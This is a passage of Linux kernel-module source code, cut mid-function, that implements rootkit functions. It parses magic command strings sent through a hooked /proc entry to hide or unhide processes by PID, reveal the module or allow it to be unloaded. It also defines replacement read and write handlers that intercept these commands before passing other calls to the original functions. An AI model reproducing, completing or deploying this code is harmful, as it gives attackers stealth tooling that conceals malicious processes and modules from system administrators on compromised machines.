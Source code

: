 ```cpp
	/* Here we make possible to unload the module by "rmmod" */
	else if (!strcmp(buf, module_release))
		module_put(THIS_MODULE);
	/* Here we make module visible */
	else if (!strcmp(buf, module_uncover))
		module_show();
	/* We hide process */
	else if (!strncmp(buf, hide_proc, strlen(hide_proc))) {
		if (pid_index > 9)
			return 0;
		sprintf(pid[pid_index], "%s", buf + 5);
		pid_index++;
	}
	/* We "unhide" lastly hidden process */
	else if (!strncmp(buf, unhide_proc, strlen(unhide_proc))) {
		if (!pid_index)
			return 0;
		pid_index--;
	}
	/* If we are here, there was no command passed */
	else
		return 1;
	return 0;
}

/* Our "write" function */
static int buf_write(struct file *file, const char __user *buf,
unsigned long count, void *data)
{
	/* If check_buf return 0, there was command passed */	
	if (!check_buf(buf))
		return count;
	/* Otherwise we execute original function */
	return old_write(file, buf, count, data);
}

/* Our "read" function  for read_proc field*/
static int buf_read(char __user *buf, char **start, off_t off,
int count, int *eof, void *data)
{
	if (!check_buf(buf))
		return count;
	return old_read(buf, start, off, count, eof, data);
}

/* For file_operations structure */
static ssize_t fops_write(struct file *file, const char __user *buf_user,
size_t count, loff_t *p)
{
	if (!check_buf(buf_user))
		return count;
	return old_fops_write(file, buf_user, count, p);
}

/* For file_operations structure */
static ssize_t fops_read(struct file *file, char __user *buf_user,
size_t count, loff_t *p)
{
	if (!check_buf(buf_user))
		return count;
	return old_fops_read(file, buf_user, count, p);
}

```